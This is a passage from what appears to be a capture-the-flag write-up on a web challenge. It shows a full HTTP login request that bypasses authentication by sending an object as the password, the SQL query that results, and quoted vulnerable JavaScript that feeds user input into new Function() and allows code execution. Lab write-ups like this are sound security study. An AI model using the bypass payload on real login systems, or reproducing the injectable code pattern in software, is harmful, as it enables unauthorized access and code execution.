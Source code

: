 It is possible to pass a value that gets evaluated as an Object instead of a String value, and results in the following SQL query:

```http
POST /api/login HTTP/1.1
Host: 192.168.1.199:1337
Content-Length: 46
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.199:1337
Referer: http://192.168.1.199:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"admin","password":{"password":1}}
```

`SELECT username  FROM users WHERE username = 'admin' AND password = `password` = 1`

![Untitled](../../zzz_res/attachments/Spiky%20Tamagotchi%2065add0ecf061497a926471dfb120eb33%202.png)

## JavaScript code injection

User controllable data is inserted within `res` which is then passed to the `new Function()` and finally called, resulting in remote code execution:

```jsx
...
try {
            // devine formula :100:
            let res = `with(a='${activity}', hp=${health}, w=${weight}, hs=${happiness}) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }`;
            quickMaths = new Function(res);
            const {m, hp, w, hs} = quickMaths();
...
```

![Untitled](../../zzz_res/attachments/Spiky%20Tamagotchi%2065add0ecf061497a926471dfb120eb33%203.png)

# Exploitation

## SQL Injection
